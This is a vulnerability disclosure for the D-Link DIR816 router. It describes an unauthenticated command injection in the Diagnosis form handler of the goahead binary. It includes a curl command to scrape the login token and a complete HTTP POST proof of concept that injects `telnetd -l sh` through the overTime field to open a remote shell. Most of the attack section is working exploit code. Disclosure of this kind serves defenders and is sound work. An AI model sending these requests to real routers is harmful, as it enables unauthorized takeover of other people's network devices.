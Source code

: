 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in D-Link Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Remote Command Execution**

In `goahead` binary:

In `Diagnosis` function, `overTime、overTime` is directly passed by the attacker, so we can control the `overTime、overTime` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>



## PoC

We set `overTime` as **`telnetd -l sh`** , and the router will excute it,such as:

```http
POST /goform/Diagnosis HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

pingAddr=192.168.2.1&doType=0&sendNum=10&pSize=10&overTime=`telnetd -l sh`&trHops=&tokenid=1714636915
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
